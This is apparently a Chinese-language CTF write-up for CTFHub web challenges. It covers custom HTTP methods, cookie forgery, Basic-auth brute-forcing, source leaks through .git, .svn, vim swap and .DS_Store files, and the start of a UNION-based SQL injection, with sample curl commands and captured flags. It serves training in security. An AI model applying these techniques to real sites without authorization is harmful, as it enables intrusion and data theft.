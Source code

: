 
所以我们需要用CTFHUB方法请求这个网页,

postman似乎不太行,不能更改请求报文或者自定义方法,所以

##### 方法1:burpsuite

用burpsuite,先打开interceptor,用burpsuite的浏览器打开网页,会抓到请求报文是GET开头的,改成CTFHUB就行了

会得到

```    <!DOCTYPE html>
    <html>
    <head>
        <meta charset="UTF-8"/>
        <title>CTFHub HTTP Method</title>
    </head>
    <body>

    good job! ctfhub{54531dae3ab7971c27d03aa4}

    </body>
    </html>
```
##### 方法2:curl

```    curl -X CTFHUB http://challenge-760bed670c370d4e.sandbox.ctfhub.com:10800/index
```
curl: - -A: 添加User-Agent - -b: 发送cookie - -c:
将服务器cookie写入文件 - -d: 发送POST的数据体 - \--data-urlencode:
等同于-d,只是会进行url编码 - -e: 设置Referer - \...

https://www.ruanyifeng.com/blog/2019/09/curl-reference.html

#### 302跳转

```    <html><head>
            <title>No Flag here!</title>
        </head>
        <body>
            <center>
                <h1>No Flag here!</h1>
                <a href="index.php">Give me Flag</a>
            </center>

    </body></html>
```
抓包可得有302的favicon.ico图标,和304的index.php,根据a标签可知flag在index.php上,直接curl

curl
http://challenge-5d15d0c1bc151f83.sandbox.ctfhub.com:10800/index.php

burpsuite:

点一下,查html记录,会有一条访问index.php的记录

```    HTTP/1.1 200 OK
    Server: openresty/1.21.4.2
    Date: Sun, 20 Oct 2024 14:07:40 GMT
    Content-Type: text/html; charset=UTF-8
    Connection: keep-alive
    X-Powered-By: PHP/5.6.40
    Access-Control-Allow-Origin: *
    Access-Control-Allow-Headers: X-Requested-With
    Access-Control-Allow-Methods: *
    Content-Length: 172

    <!DOCTYPE html>
    <html>
    <head>
        <meta charset="UTF-8"/>
        <title>CTFHub HTTP Method</title>
    </head>
    <body>

    good job! ctfhub{deac5970cfc8f698bb842ef0}

    </body>
    </html>
```
#### cookie:

题目说了只有admin才能访问,在cookie里找到admin变量是0,所以发送一个admin=1的请求就行了

```    curl --cookie "admin=1" http://challenge-958ac43d994c8238.sandbox.ctfhub.com:10800/
```
burpsuite同理

#### 基础认证

给了一个密码本,由于html里认证本质就是设置一个Authorization的Header,所以可以直接curl写个bash挨个试

或者可以先用burpsuite抓包,然后把抓到的包发给interceptor解析

能看出Authorization就是Basic + base64字符串,其中base64是账号:密码

猜测账户admin

然后用burpsuite挨个爆破,状态码200的就是正确密码

#### 响应包源代码:

代开源代码,花到最底下,结束

### 信息泄露

#### 目录遍历:

挨个翻一遍就好了

#### PHPINFO:

进入网页,ctrl+F搜ctfhub就出来了

#### 网站源码:

根据给出的提示burpsuite爆破,找到一个压缩包,然后在网址后面输入那个txt文件的名字就行了

#### bak文件:

提示说在index.php里,所以看下index.php,题目是bak,再加个bak后缀名就出来了

#### vim缓存

**当开发人员在线上环境中使用 vim 编辑器，在使用过程中会留下 vim
编辑器缓存，当vim异常退出时，缓存会一直留在服务器上，引起网站源码泄露。**

后缀是区分这些交换文件的方法同一个文件产生的多个交换文件的后缀是不一样的

以 index.php 为例：第一次产生的交换文件名为 .index.php.swp

再次意外退出后，将会产生名为 .index.php.swo 的交换文件

第三次产生的交换文件则为 .index.php.swn

所以在url后面加上.index.php.swp即可

#### DS_Store

这个是mac的缓存,在url后面加上/.DS_Store得到一个文件,然后用记事本打开,的带一个txt文件名,放在url后面就行了

#### git

##### git log:

可以先用dirsearch搜一遍,但肯定能找到git泄露

然后用githack,记得用python2(conda装个py27)

然后就把对应的repo clone下来了,git log去查commit记录, 然后git
diff或者git show(因为flag是这次commit加上去的)

##### git stash:

和之前一样,把repo弄下来然后git stash pop就出来了

##### git index:

和git log一样

### svn:

用dvcs获取.svn文件夹,然后能找到可疑文件,grep -a -r flag

### hg:

同理

## 密码类:

burpsuite抓包硬试

## sql注入

这类问题说白了就是没有设置好sql的空里写什么

### 整数型注入

如果在不知道题目的情况下可以先输入1试试

显示sql语句

```    select * from news where id = 1
    -- ID: 1
    -- Data: ctfhub
```
```    select * from news where id = 2
    -- ID: 2
    -- Data: skill
```
于是知道这道题是整数型注入

查询字段数

```    select * from news where id = 1 or 1 = 1 order by 2
```
其中

```    order by 1
    order by 2
    order by 3
    ...
```
表示按照第几个字段排序,所以可以用来检查字段数

order by 3 的时候不回显,所以有两个字段

然后用union select联合查询回显位置

```    select * from news where id = 1 union select 1,2
```
select 1,2 正常来说只会返回第一列是1,第二列是2,列数和数据库列数相同的表

返回

```    select * from news where id= 1 union select 1,2
    -- ID: 1
    -- Data: ctfhub
```
很明显,这个是因为ctfhub的id=1,所以改成不可能出现在数据库里的id,比如-1,来阻止表内数字出现
:::::::::::::::
:::::::::::::::::::::::::
::::::::::::::::::::::::::
